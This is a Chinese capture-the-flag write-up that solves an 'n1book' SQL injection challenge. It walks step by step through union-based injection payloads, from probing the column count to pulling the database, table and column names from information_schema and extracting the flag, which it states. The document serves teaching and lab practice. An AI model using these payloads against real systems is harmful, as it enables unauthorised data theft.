 ```yaml
---
Author: SuperJason
Date: 2020-12-18
---
```


## flag
`n1book{union_select_is_so_cool}`

## 思路
1. 首先判断是字符注入还是数字注入，`-- -`和`#`可以将后面的语句注释掉，此处`#`无效  
`id=1 and 1=2 -- -`与`id=1`界面相同，证明不是数字注入  
`id=1' and 1=2-- -`与`id=1`界面不同，证明是字符注入
2. 接着判断有数据表有3个字段（column）  
`id=1' union select 1,2,3 -- -`与`id=1`界面相同  
`id=1' union select 1,2,3,4 -- -`与`id=1`界面不同  
也可用`id=1' order by 3 -- -`与`id=1' order by 4 -- -`的差异判断有三列数据
3. 获取数据库名**note**  
`id=-1' union select 1,database(),3 -- -`
4. 获取数据表名**fl4g**、**notes**  
`id=-1' union select 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='note' -- -`
5. 获取字段名**fllllag**  
`id=-1' union select 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='fl4g' -- -`
6. 获取**flag**  
`id=-1' union select 1,group_concat(fllllag),3 FROM fl4g -- -`

## 总结
- union select左右两边必须拥有相同数量的列
- 在思路1-6中，1-2为`id=1`,3-6为`id=-1`的原因是1-2只需要判断，不需要展示值；3-6需要将union select获得的值展示出来。
- **如果id=1，union select获得的值将无法展示出来**
- 以思路3为例
    - 当id=1时
    ![](./images/sql1-1.png)
    - 当id=-1时，展示出数据库名note
    ![](./images/sql1-2.png)
